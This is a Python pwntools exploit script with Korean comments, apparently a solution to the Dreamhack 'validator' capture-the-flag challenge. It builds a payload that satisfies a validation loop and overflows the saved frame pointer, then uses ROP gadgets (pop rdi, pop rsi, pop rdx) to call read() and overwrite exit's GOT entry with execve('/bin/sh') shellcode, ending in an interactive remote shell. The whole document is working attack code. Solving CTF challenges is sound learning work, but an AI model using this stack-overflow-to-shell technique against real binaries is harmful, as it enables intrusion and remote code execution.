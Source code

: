 ```py
from pwn import *

context.arch = "amd64"

p = remote('host3.dreamhack.games', 9820)
elf = ELF('./validator_server')
r = ROP(elf)


# [1] validate

payload = b"DREAMHACK!"  # index : 0 ~ 9
payload += b'A'          # index : 10

# index : 11 ~ 128 (s[128]에도 대입해줘야 s[127]의 비교에서 exit가 발생하지 않음)
for i in range(127, 9, -1):   # 127 ~ 10 까지 -1씩 감소시키며 (char 범위는 -128 ~ 127 이므로, 범위를 127부터 해줘야함)
    payload += bytes([i])     # 바이트 문자열로 변환
    # payload += p8(i)        # 이렇게 해도됨

payload += b'a' * 0x7         # SFP : 앞에서 SFP의 첫번째 바이트까지 넘어왔기 때문에 7바이트만 덮어야함

# index : 10 ~ 128 + SFP -> 총 126 바이트
# for i in range(126, 0, -1):  # 127 ~ 1 까지 -1씩 감소시키며
#     payload += bytes([i])     # 바이트 문자열로 변환
#     # payload += p8(i)        # 이렇게 해도됨

print(len(payload))

# [2] ROP
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_pop_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rdx = r.find_gadget(['pop rdx', 'ret'])[0]
# ret = r.find_gadget(['ret'])[0]

shellcode = asm(shellcraft.execve("/bin/sh", 0, 0))
# shellcode = asm(shellcraft.sh()) # 이것도 사용 가능

exit_plt = elf.plt['exit']
exit_got = elf.got['exit']

read_plt = elf.plt['read']

# payload += p64(ret)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_pop_r15) + p64(exit_got) + p64(0)
payload += p64(pop_rdx) + p64(len(shellcode))
payload += p64(read_plt)

payload += p64(exit_got)

# main의 read
sleep(0.5)
p.send(payload)

# ROP의 read
sleep(0.5)
p.send(shellcode)

p.interactive()
```
